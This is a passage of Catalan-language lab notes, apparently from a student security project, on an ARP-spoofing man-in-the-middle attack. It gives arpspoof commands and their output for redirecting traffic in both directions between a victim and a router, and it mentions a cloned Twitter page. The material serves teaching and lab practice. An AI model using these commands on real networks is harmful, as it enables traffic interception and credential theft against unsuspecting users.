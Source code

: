 Pàgina clonada: http://www.twitter.com

SPOOF del tràfic entre la VÍCTIMA I EL ROUTER --> ES CANVIA LA MAC DEL CLIENT VÍCTIMA PER LA MEVA: 18:c0:4d:a0:8f:c8 PER LA MEVA (ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONNECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA TORNADA.
 
└─# arpspoof -i eth0 -t 10.200.243.212 10.200.243.1
8:0:27:16:51:52 18:c0:4d:a0:8f:c8 0806 42: arp reply 10.200.243.1 is-at 8:0:27:16:51:52

"Tot el fluxe que va del servidor a la víctima, redirigeix-los a la meva màquina"

TORNADA

SPOOF del tràfic entre la EL ROUTER I LA VICTIMA --> ES CANVIA LA MAC DEL DEL ROUTER PER LA MEVA: 0:22:57:be:53:1 PER LA MEVA (ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONNECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA TORNADA.

```
(root@osboxes)-[/home/anonymous]
# arpspoof -i eth0 -t 10.200.243.1 10.200.243.212
8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52
8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52
```

"Tot el fluxe que va de la víctima al servidor, redirigeix-los a la meva màquina"


_RESUM: TOT EL TRÀFIC DE PAQUETS QUE SURT DE LA VÍCTIMA AL SERVIDOR, SERÀN "FORWARD" AL MEU CLIENT ATACANT. JA QUE EL LA VÍCTIMA CREU QUE QUI CONTACTA ES AL ROUTER, PERO NO. SUPLANTO LA MAC DESTÍ DEL ROUTER PER LA MEVA._

![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/New22.png?raw=true)
> __Img Source__: *@Aaron & @Cristian 's GitHub*
<br>
